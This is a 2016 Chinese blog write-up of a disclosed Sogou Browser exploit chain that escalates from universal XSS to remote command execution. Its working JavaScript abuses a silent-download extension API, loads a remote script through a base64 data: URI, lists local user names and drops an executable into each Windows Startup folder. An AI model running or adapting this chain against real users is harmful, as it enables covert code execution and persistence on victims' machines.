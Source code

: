 title: "[浏览器安全系列三] 搜狗浏览器从UXSS到远程命令执行"
date: 2016-10-06 10:57:48
tags: ["安全", "浏览器安全", "XSS"]

---

案例链接：http://www.wooyun.org/bugs/wooyun-2016-0213422

## 免责声明

本博客提供的部分文章思路可能带有攻击性，仅供安全研究与教学之用，风险自负!

### 0x00 首先是UXSS

具体见：https://bugs.chromium.org/p/chromium/issues/detail?id=569496

浏览器版本号：6.3.8.21279

### 0x01 既然可以UXSS，我们找个特权域

从漏洞 http://wooyun.org/bugs/wooyun-2010-0145023 我们可以知道搜狗浏览器的扩展有下载任意文件到任意位置的API！我们自己写一个恶意扩展，提交并通过审核的可能性基本为0。这个API这么好用，但又只能从：se-extension://域名下进行调用，好像很难构造吧。

```javascript
sogouExplorer.downloads.downloadSilently({
  url:"http://tmxk.org/img/r-c.png",
  filename:"dd.exe",
  path:"d:\",
  method:"GET"
})
```

我在想怎么利用上面的UXSS的时候，突发奇想的测试了一下，我们能不能打到se-extension://这个域名，于是进行一下测试。我找了一个搜狗浏览器安装时启用的默认扩展，找到其background.html的地址：`se-extension://ext238561744/background.html`。结果当然是没有那么容易，会提示如下的信息：

> Denying load of se-extension://ext238561744/background.html. Resources must be listed in the web_accessible_resources manifest key in order to be loaded by pages outside the extension.

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idldd42oj20hs0cstb1.jpg)

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idmtvo71j20ry0j0gou.jpg)

### 0x02 难道没法子？

我认真的读了两秒这个提示后，原来还允许开发者通过`web_accessible_resources`指定某些资源，从而实现在扩展外被访问！当然，我们就去试试运气去默认的扩展下找找看有没有吧。搜狗浏览器安装的插件在这个目录下：

```
C:\Users\Username\AppData\Roaming\SogouExplorer\Extension
```

grep一下，找到了一个插件，搜狗打假助手，`com.sogou.antiCrime`，其manifest.xml文件中有以下的内容：

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idowi21sj20n90h5465.jpg))

于是就把要打的域名地址换成了：

```
se-extension://ext238561744/jd/images/ac-logo.png
```

一开始我还觉得这是一个PNG图片，即使没有被拒绝访问，也应该用不了扩展的API吧。我本来是很怀疑能不能行的，正想放弃的时候，我还是觉得应该尝试一发。把PoC里的expolit.html里的f函数改一下，尝试下载一个文件到`c:\Users\`目录下。

备注：后来想想其实也对，因为图片在浏览器打开的时候浏览器用自动的使用img标签插入来显示图片。

```javascript
...

function f() {
  console.log("f()")
  if (++c1 == 2) {
    var x1 = x.contentWindow[0].frameElement.nextSibling;
    // x1.src = 'se-extension://ext238561744/background.html';         // Denied
    x1.src = 'se-extension://ext238561744/jd/images/ac-logo.png';
    try {
      while (x1.contentDocument) { ml(); }
    } catch(e) {
      x1.src = "javascript:if(location != 'about:blank') {console.log(location); sogouExplorer.downloads.downloadSilently({url:'http://127.0.0.1/test.js',filename:'test.js',path:'c:\\\\Users\\\\',method:'GET'});}"
    }
  }
}

...
```

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idw8oogbj20ru0ivgqz.jpg)

### 0x03 最终我们做到了！

上面下载好文件之后，我们可以直接使用伪协议来执行，在 http://wooyun.org/bugs/wooyun-2010-0177221 最新版依旧没有加个提示什么的。而且现在我们又扩展名`.js`了。直接可以执行。当然，我们也可以写到用户的启动目录中，至于怎么拿到用户名，这个 http://wooyun.org/bugs/wooyun-2010-0176436 的漏洞都公开了，然后好像什么修复工作都没有做。

```javascript
location.href="vbefile:/../../../../../../Users/test.js"
```

获取用户名的过程：用户访问open.html，跳转到data:域下
```javascript
window.location.href = "data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly8xMjcuMC4wLjEvZXZpbC5qcyc+PC9zY3JpcHQ+"
```
其中base64解密后内容为：

```html
<script src='http://127.0.0.1/evil.js'></script>
```

evil.js在data域下执行，可以获取到用户名列表，然后再跳转到需要写calc.exe到启动目录的页面中，完成写入操作！

```javascript
function getUsers(data) {
  var users = data.match(/<script>addRow\("([^"]+)"/g) || [];
  var currentUser=[];
  for(var i = 0; i < users.length; i++) {
    var user = (users[i].match(/<script>addRow\("([^"]+)"/) || ["", ""])[1];
    if(["..", "All Users", "Default", "Default User", "Public", "UpdatusUser", "desktop.ini"].indexOf(user) == -1) {
      currentUser.push(user);
    }
  }
  
  console.log(currentUser);
  return currentUser;
}

window.external.extension("getRecommendSidebarExts", "file:///C:/Users/", function () {
  var data = JSON.parse(arguments[0]);
  if (data.success != true)
    return;

  location.href = 'http://127.0.0.1/exploit.html?users=' + getUsers(data.data);
});

```

写文件到启动目录下：
```javascript
function f() {
  console.log("f()")
  if (++c1 == 2) {
    var users = top.location.search.replace('?users=').split(',');

    var x1 = x.contentWindow[0].frameElement.nextSibling;
    // x1.src = 'se-extension://ext238561744/background.html';         // Denied
    x1.src = 'se-extension://ext238561744/jd/images/ac-logo.png';
    try {
      while (x1.contentDocument) { ml(); }
    } catch(e) {
      var users_str = '';
      for (var i = 0; i < users.length; ++i) {
        users_str += ('"' + users[i] + '"');
        if (i != users.length - 1)
          users_str += ',';
      }
      x1.src = "javascript:if(location != 'about:blank') { var users=[" + users_str + "]; for (var i = 0; i < users.length; ++i) sogouExplorer.downloads.downloadSilently({url:'http://127.0.0.1/calc.exe',filename:'calc.exe',path:'C:\\\\Users\\\\' + users[i] + '\\\\AppData\\\\Roaming\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\Startup\\\\',method:'GET'});}"
    }
  }
}

```


录个用伪协议执行的GIF

![](http://ww4.sinaimg.cn/large/7184df6bgw1f8idxtyw70g20sg0j2do4.gif)

